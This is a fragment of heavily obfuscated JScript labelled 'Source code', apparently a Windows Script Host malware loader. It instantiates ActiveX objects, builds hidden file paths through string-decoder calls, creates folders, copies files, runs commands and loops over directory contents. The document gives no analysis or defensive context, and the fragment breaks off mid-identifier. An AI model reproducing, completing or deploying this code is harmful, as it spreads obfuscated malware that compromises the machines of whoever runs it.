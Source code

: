 ```
Z8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x5b187b(0xb1)),iaVFH0uXneNnv1yMtZMoyqCiQMuxLatpOV0ikokDTggKBZoXlbzHPQo6N=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x5b187b(0xa5)),dJ9Zm3pKB673ysAKVLuy4i3MMWcrn2Yv3EIxi1lTu0LjVQDdBiT=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x5b187b(0xce)),nK4d3ZVQju0cDl7ykfCjGkzgztfu1djjqVSJt3dorumqBi755b5txf2Nzc=new ActiveXObject(ARQU3ygoRIoioDX7WeQPfsv9J5KTlvx7KUZcS1W19N4L6pGPzq2w),K2EWZcjGhiu2to8jeu0L5QId3rgEZGg9PGxjs0sZwV4gb1RCsaZL=nK4d3ZVQju0cDl7ykfCjGkzgztfu1djjqVSJt3dorumqBi755b5txf2Nzc[_0x179b37(0x1e4)](jTbuWN8jBCVEHEJ94RdOVvo75lc4PwECpV5eN60jlgXAzsG22Jb7o6CM0x2),UEu1RWXtlZfRXcAzRjHjfLrBpClgPqKzkGrXo9mDNllotds7oYube=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x49a11f(0xad)),E8A3z3gWwk8JrDOP8iE3W8g2xhbVKOD4d2G10qO2Y03W1geTmF2khrUla=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x5b187b(0xb8)),gF5OaHC5Gqb1sRrGU3XnFtLhXDTR9XD69toip2mKxfTZB0KSQKAwNOhZ=K2EWZcjGhiu2to8jeu0L5QId3rgEZGg9PGxjs0sZwV4gb1RCsaZL+t0ytlGKTYMbPE84LxFqFrqSWy1bMc2AV6T8gaXYNLXpV43BGoSpGPdI(0x5)+UEu1RWXtlZfRXcAzRjHjfLrBpClgPqKzkGrXo9mDNllotds7oYube,ef0hibohZoc7TRX50mXRzdXFmJ19SYtfjX81Lme2HbAM3UBwsQOcW4q4=nK4d3ZVQju0cDl7ykfCjGkzgztfu1djjqVSJt3dorumqBi755b5txf2Nzc[_0x49a11f(0x80)](tv0XAbBuwARftwzQ1vqRPoc0DPoLi7gbeLOgdssRPOpLvmNRx2uUOq)+hh8aN6epbUcmBR3eXys5eGkYLpv614e2QqUVf2HCzdiVbcxsneOD5Xfe2d,WKgl1v6AthII56zr6j09uwB16HzVKkkVgUdvaRf7PvKhiMq91W1NRu=ef0hibohZoc7TRX50mXRzdXFmJ19SYtfjX81Lme2HbAM3UBwsQOcW4q4+gF5OaHC5Gqb1sRrGU3XnFtLhXDTR9XD69toip2mKxfTZB0KSQKAwNOhZ,yoQQ6c6gC6pzybirokybrML6FV5se3vdqobt6FUQWF1F0IvpJGwZ1e=new ActiveXObject(XWqrz6digeqneiYXxjOfGnb85bHwaCNu6JBhuZRHelJHertu8cceeu),PBHcCgFEnStZjDPayjszojpaphIiXM8Xx1KWAs8iBM5G0s0UYOoZx7mC=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x5b187b(0xaa)),rIgGjp62CVbqOvHWzGVTauLBN5xmyqfZU7QyGfrLAJMSIXbkSXTfi=nK4d3ZVQju0cDl7ykfCjGkzgztfu1djjqVSJt3dorumqBi755b5txf2Nzc[_0x5b187b(0xb0)](PBHcCgFEnStZjDPayjszojpaphIiXM8Xx1KWAs8iBM5G0s0UYOoZx7mC)+hh8aN6epbUcmBR3eXys5eGkYLpv614e2QqUVf2HCzdiVbcxsneOD5Xfe2d,strneosorocontinuojacto=rIgGjp62CVbqOvHWzGVTauLBN5xmyqfZU7QyGfrLAJMSIXbkSXTfi+K2EWZcjGhiu2to8jeu0L5QId3rgEZGg9PGxjs0sZwV4gb1RCsaZL,YEVOQK8ZqZYER9bQG59u6zC2SFigeYcyupqh8LTDm6hEM8SHA3Z6J=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x5b187b(0xb7)),DfEDQVCSiTdOV9zCgViH1eZu1X8gtHTjI17oa14nr0E9zyULNOjKGx=nK4d3ZVQju0cDl7ykfCjGkzgztfu1djjqVSJt3dorumqBi755b5txf2Nzc[_0x5b187b(0xb0)](YEVOQK8ZqZYER9bQG59u6zC2SFigeYcyupqh8LTDm6hEM8SHA3Z6J);if(yoQQ6c6gC6pzybirokybrML6FV5se3vdqobt6FUQWF1F0IvpJGwZ1e[_0x179b37(0x206)](strneosorocontinuojacto)){var obbXeyXepAMeX4NSLNzGmzioQAuIVuUSG2Qb6wOa14ykqUXfa5SCNXH=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x5b187b(0xab)),eh7GxDPGLdaVeBcdzwFh8ELBiKzMXurh1eEtpDgeAHCHLKLpgfeC=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x5b187b(0xd0));nK4d3ZVQju0cDl7ykfCjGkzgztfu1djjqVSJt3dorumqBi755b5txf2Nzc[_0x179b37(0x20a)](DfEDQVCSiTdOV9zCgViH1eZu1X8gtHTjI17oa14nr0E9zyULNOjKGx+obbXeyXepAMeX4NSLNzGmzioQAuIVuUSG2Qb6wOa14ykqUXfa5SCNXH+eh7GxDPGLdaVeBcdzwFh8ELBiKzMXurh1eEtpDgeAHCHLKLpgfeC);}else{try{var gSadymzHb0nqgTpDf83kJzpgJ2mACjM33JexOXC7RaiFUC679O1mc=yoQQ6c6gC6pzybirokybrML6FV5se3vdqobt6FUQWF1F0IvpJGwZ1e[_0x5b187b(0xc9)](strneosorocontinuojacto,!![]);gSadymzHb0nqgTpDf83kJzpgJ2mACjM33JexOXC7RaiFUC679O1mc[_0x5b187b(0x9e)](_0x5b187b(0xc3)),gSadymzHb0nqgTpDf83kJzpgJ2mACjM33JexOXC7RaiFUC679O1mc[_0x179b37(0x205)]();}catch(_0x117af0){};yoQQ6c6gC6pzybirokybrML6FV5se3vdqobt6FUQWF1F0IvpJGwZ1e[_0x5b187b(0xc5)](WKgl1v6AthII56zr6j09uwB16HzVKkkVgUdvaRf7PvKhiMq91W1NRu);var DeJSnnU6cFlFExTd0yUnqsmn7YyvGfbnSdljn4UStZ0MNfdwJE399dGliS=WKgl1v6AthII56zr6j09uwB16HzVKkkVgUdvaRf7PvKhiMq91W1NRu+hh8aN6epbUcmBR3eXys5eGkYLpv614e2QqUVf2HCzdiVbcxsneOD5Xfe2d+gF5OaHC5Gqb1sRrGU3XnFtLhXDTR9XD69toip2mKxfTZB0KSQKAwNOhZ+Fa33kG2qcD71XUwNvHj2k016pDvSmPO6UdtkGSLkCeOU5jDmSEUy1DP;CdWB8pWOIMiCaOCzdFmmxvjlWIYif5jjp69mGcdAvheaKnEir8hLkVnS4Z(o9pC8Ho4LmBjLge0gd9kvcWZIxe9HKrFRwugn82ULsn3Q2i6VVrn8OxC6,DeJSnnU6cFlFExTd0yUnqsmn7YyvGfbnSdljn4UStZ0MNfdwJE399dGliS);var uPp7Vi5WJfGndyU0WiTWYD21OBf6GtoMbKWhL2tRQXxFXRGB7aNG=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x5b187b(0xbe)),yApVXKvQkod8GDFpjP6GsYKjr1X2qYXW82JwQpBppJvpuF4oy2n3073aH=new ActiveXObject(uPp7Vi5WJfGndyU0WiTWYD21OBf6GtoMbKWhL2tRQXxFXRGB7aNG);EmMvH6KjFce3yG7EFy9O8oxoS7U260x5veSbp9jegDKSeeeWNSagBJgAt=yApVXKvQkod8GDFpjP6GsYKjr1X2qYXW82JwQpBppJvpuF4oy2n3073aH[_0x5b187b(0x9f)](DeJSnnU6cFlFExTd0yUnqsmn7YyvGfbnSdljn4UStZ0MNfdwJE399dGliS)[_0x179b37(0x1e1)]();var iMSGpci5LbuTLoHbIIStJNkEVmkhDcYDTEI5dSxfFxZ4FkKDN44JE5KcF1z=[];for(var i=0x0;i<EmMvH6KjFce3yG7EFy9O8oxoS7U260x5veSbp9jegDKSeeeWNSagBJgAt[_0x49a11f(0xa6)];i++){iMSGpci5LbuTLoHbIIStJNkEVmkhDcYDTEI5dSxfFxZ4FkKDN44JE5KcF1z[_0x5b187b(0x98)](EmMvH6KjFce3yG7EFy9O8oxoS7U260x5veSbp9jegDKSeeeWNSagBJgAt[_0x5b187b(0xac)](i)[_0x5b187b(0xc8)]),yApVXKvQkod8GDFpjP6GsYKjr1X2qYXW82JwQpBppJvpuF4oy2n3073aH[_0x5b187b(0x9f)](WKgl1v6AthII56zr6j09uwB16HzVKkkVgUdvaRf7PvKhiMq91W1NRu+hh8aN6epbUcmBR3eXys5eGkYLpv614e2QqUVf2HCzdiVbcxsneOD5Xfe2d)[_0x5b187b(0xcc)](EmMvH6KjFce3yG7EFy9O8oxoS7U260x5veSbp9jegDKSeeeWNSagBJgAt[_0x49a11f(0xa7)](i));}ckxNm77HX2tAtRpMQsWv1X3CHb6tdEt6Bez5zGiNnccsopIwseKK3JXum=t0ytlGKTYMbPE84LxFqFrqSWy1bMc2AV6T8gaXYNLXpV43BGoSpGPdI(0x7),wNL9gcqA0w8PiNdvosibTdQUah9kiLsTdTox48tLQY9fVg1mWwIe5Z=WKgl1v6AthII56zr6j09uwB16HzVKkkVgUdvaRf7PvKhiMq91W1NRu+hh8aN6epbUcmBR3eXys5eGkYLpv614e2QqUVf2HCzdiVbcxsneOD5Xfe2d+ckxNm77HX2tAtRpMQsWv1X3CHb6tdEt6Bez5zGiNnccsopIwseKK3JXum+E8A3z3gWwk8JrDOP8iE3W8g2xhbVKOD4d2G10qO2Y03W1geTmF2khrUla+WT1fM6T9y29aGKZxPx9gfp2Se8ayyJUM7URKedVzGIi1y1kZjkQ61ZXBWw;for(var i=0x0;i<iMSGpci5LbuTLoHbIIStJNkEVmkhDcYDTEI5dSxfFxZ4FkKDN44JE5KcF1z[_0x179b37(0x210)];i++){EmG8jU1JwNvDeZL6AZU4kF00WCgGoUbvEpmJocDyIevz3ENoJ5M=iMSGpci5LbuTLoHbIIStJNkEVmkhDcYDTEI5dSxfFxZ4FkKDN44JE5KcF1z[i],EmG8jU1JwNvDeZL6AZU4kF00WCgGoUbvEpmJocDyIevz3ENoJ5M[_0x5b187b(0xca)]('01')===0x0&&yoQQ6c6gC6pzybirokybrML6FV5se3v
```